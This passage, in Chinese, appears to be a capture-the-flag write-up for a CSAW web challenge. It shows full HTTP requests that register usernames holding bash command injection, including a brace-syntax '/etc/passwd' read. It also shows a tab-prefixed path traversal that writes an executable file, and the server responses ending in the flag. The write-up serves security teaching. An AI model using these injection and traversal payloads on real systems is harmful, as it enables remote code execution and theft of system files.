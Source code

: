 如果用户名是一段可执行代码，而且写入的文件是 wtf 格式的，那么这个文件就能够执行我们想要的代码。

应用程序允许注册包含特殊字符的用户，例如“$”，但是包含空格的用户名存在错误。但是，因为bash允许执行没有空格的命令（例如{cat，/ etc / passwd}），所以这不是问题。所以我们注册了用户`${find,/,-iname,get_flag2}`并使用以下请求创建了回复：

```http
POST /reply.wtf?post=../users_lookup/sh.wtf%09 HTTP/1.1
Host: web.chal.csaw.io:8001
Content-Type: application/x-www-form-urlencoded
Cookie: USERNAME=${find,/,-iname,get_flag2}; TOKEN=Uf7xrOWHXoRzLdVS6drbhjHyIZVsCXFgQYnOG01UhENS1aaajeezaWrgpOno8HBljrHOMmfbQUY+rES1bWlNWQ==

text=asd&submit=
```

**请注意，文件名前缀`%09`为水平制表符。这是必需的，因为reply函数会将名称解释为目录名称，命令将失败。**

当我们现在调用该文件时，我们得到以下响应：

```http
GET /users_lookup/sh.wtf HTTP/1.1
Host: web.chal.csaw.io:8001
Cookie: USERNAME=${find,/,-iname,get_flag2}; TOKEN=Uf7xrOWHXoRzLdVS6drbhjHyIZVsCXFgQYnOG01UhENS1aaajeezaWrgpOno8HBljrHOMmfbQUY+rES1bWlNWQ==


HTTP/1.1 200 OK
[...]
/usr/bin/get_flag2
RE:
asd
```

所以这`get_flag2`是一个驻留的二进制文件`/usr/bin/`。我们现在只需要创建用户`$/usr/bin/get_flag2`并再次发送回复请求：

```http
POST /reply.wtf?post=../users_lookup/sh.wtf%09 HTTP/1.1
Host: web.chal.csaw.io:8001
Content-Length: 16
Content-Type: application/x-www-form-urlencoded
Cookie: USERNAME=$/usr/bin/get_flag2; TOKEN=neappNHO7cRKNouqa1+xBYq8AWNTE2PqLcxh0JPFkaaNF5UOXc/C2fOL+JkQP65OZxc9BUkRnt1h8Z98bFbHZA==

text=asd&submit=

--

GET /users_lookup/sh.wtf HTTP/1.1
Host: web.chal.csaw.io:8001


HTTP/1.1 200 OK
[...]
Flag: flag{n0b0dy_exp3c75_th3_p4r3nth3s1s_1nqu1s1t10n}
ÿÿÿ
RE:
asd
```